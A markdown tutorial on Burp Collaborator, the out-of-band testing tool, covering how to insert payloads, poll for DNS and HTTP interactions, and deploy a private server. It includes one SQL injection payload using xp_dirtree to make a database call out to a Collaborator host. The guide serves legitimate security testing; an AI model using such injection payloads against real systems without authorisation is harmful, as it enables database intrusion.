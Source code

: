 # Burp Collaborator

## 🔍 What is Burp Collaborator?

**Burp Collaborator** is an **Out-of-Band Application Security Testing (OAST)** tool. It enables you to identify vulnerabilities like **blind SQL injection**, **server-side request forgery (SSRF)**, and **out-of-band XSS**, where traditional testing methods might fail due to the lack of direct feedback from the application.

---

## ⚙️ How Does It Work?

1. **Generate a Collaborator Payload**: Burp creates a unique subdomain (e.g., `abc123.burpcollaborator.net`) that you can insert into your test requests.
2. **Inject the Payload into the Target Application**: Place the payload in a parameter, header, or any input field that the application processes.
3. **Monitor for Interactions**: Burp Collaborator listens for any DNS, HTTP, or SMTP requests made to the generated subdomain, indicating that the payload was executed.

![image.png](../Burp%20Collaborator/image.png)

---

## 🛠️ Step-by-Step Guide to Using Burp Collaborator

### 1. **Access the Target Application**

- Use Burp's embedded browser to navigate to the application you want to test.

### 2. **Identify an Interesting Request**

- In Burp's **Proxy > HTTP history** tab, locate a request that you suspect might be vulnerable.
- Right-click on the request and select **"Send to Repeater"**.

### 3. **Insert a Collaborator Payload**

- In the **Repeater** tab, identify a suitable location in the request (e.g., a header or parameter).
- Right-click on the selected area and choose **"Insert Collaborator payload"**.
- This action replaces the selected text with a unique Collaborator

### 4. **Send the Modified Request**

- Click **"Send"** in the Repeater tab to dispatch the request to the target application.

### 5. **Poll for Interactions**

- Navigate to the **Collaborator** tab in Burp Suite.
- Burp automatically polls the Collaborator server every 60 seconds.
- To check immediately, click **"Poll now"**.
- If the application interacted with the payload, you'll see entries indicating DNS or HTTP requests to your Collaborator subdomain.

---

## 📊 Analyzing Collaborator Interactions

- **Filtering**: Use the buttons to filter interactions by protocol (HTTP, DNS, SMTP).
- **Searching**: Click on **"Search"** to find specific interactions.
- **Annotating**: Right-click on an interaction to add comments or highlights.
- **Exporting**: Right-click and select **"Export as CSV"** to save interactions for reporting.

---

## 🔐 Using a Private Collaborator Server

For environments with strict security requirements or limited internet access, you can deploy a private instance of the Collaborator server.

### Steps to Deploy:

1. **Set Up a Domain and DNS Records**: Configure a domain (e.g., `collaborator.example.com`) with appropriate DNS records pointing to your server.
2. **Configure the Server**: Set up the Collaborator server to handle DNS, HTTP, and SMTP requests.
3. **Adjust Burp Settings**: In Burp Suite, navigate to **Project > Collaborator** settings and specify your private server's details.

---

## 🧪 Practical Example: Detecting Blind SQL Injection

Imagine a scenario where a web application's input field is vulnerable to SQL injection, but it doesn't return any errors or data. You can:

1. **Generate a Collaborator Payload**: Obtain a unique subdomain from Burp Collaborator.
2. **Craft a Malicious Input**: Insert the payload into the input field, such as:
    
    ```sql
    sql
    '; exec master..xp_dirtree '\\abc123.burpcollaborator.net\share'--
    ```
    
3. **Send the Request**: Submit the input to the application.
4. **Monitor Collaborator**: If the application is vulnerable, the database server will attempt to access the specified subdomain, which Burp Collaborator will detect.

---

## 📘 Additional Resources

- **Burp Collaborator Documentation**: Detailed information on using and configuring Burp Collaborator.
- **Getting Started with Burp Collaborator**: A step-by-step tutorial to help you begin using Collaborator effectively.
